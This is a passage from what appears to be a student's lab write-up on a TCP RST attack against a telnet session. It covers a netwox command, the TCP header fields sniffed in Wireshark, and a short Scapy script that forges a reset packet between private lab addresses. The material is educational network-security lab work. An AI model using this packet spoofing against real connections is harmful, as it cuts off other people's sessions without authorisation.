 When implementing the attack by `netwox` command, simply use such a command on the attacker machine:

```
sudo netwox 78 -i 10.9.0.5
```

Then type any letter on the user machine. As I explained in [Packet Sniffing and Spoofing Lab](../Packet-Sniffing-and-Spoofing), a `telnet` message is sent once getting a letter. After that, it keeps listening for any response from the server. Since I spoof an `RST` packet from the server to the user, which received by the listening user and informed that the connection has terminated. So when a letter is pressed, a closed connection message shows:

![](./telnet_rst_1.png)

### Scapy

**Note**: The login-in time window is too short. you should launch the attack as quickly as possible, or the login in prompt will be timed out after 60s. Therefore, in this task, you can finish the login-in process to observe the attack.

If you want to use a Python script with `scapy` module to spoof the RST packet. First, you should sniff the last `TCP`(or `telnet`) packet  from the server to the user by Wireshark on the attack machine:

For example:

![](./server_to_user.png)

The packet's TCP header:

> Transmission Control Protocol, Src Port: 23, **Dst Port: 59498**, Seq: 199921802, **Ack: 1577076274**, Len: 1
>     Source Port: 23
>     Destination Port: 59498
>     [Stream index: 0]
>     [TCP Segment Len: 1]
>     Sequence number: 199921802
>     **[Next sequence number: 199921803]**
>     Acknowledgment number: 1577076274
>     Header Length: 32 bytes
>     Flags: 0x018 (PSH, ACK)
>     Window size value: 227
>     [Calculated window size: 29056]
>     [Window size scaling factor: 128]
>     Checksum: 0x953c [unverified]
>     [Checksum Status: Unverified]
>     Urgent pointer: 0
>     Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
>     [SEQ/ACK analysis]

Fill out the critical fields of the spoofed packet and send it using the codes in [`rst_telent.py`](./rst_telnet.py) below:

```python
from scapy.all import *

ip = IP(src="10.9.0.5", dst="10.0.2.5")
tcp = TCP(sport=23, dport=59498, flags="R", seq=199921803, ack=1577076274)

pkt = ip / tcp
ls(pkt)
send(pkt, verbose=0)
```
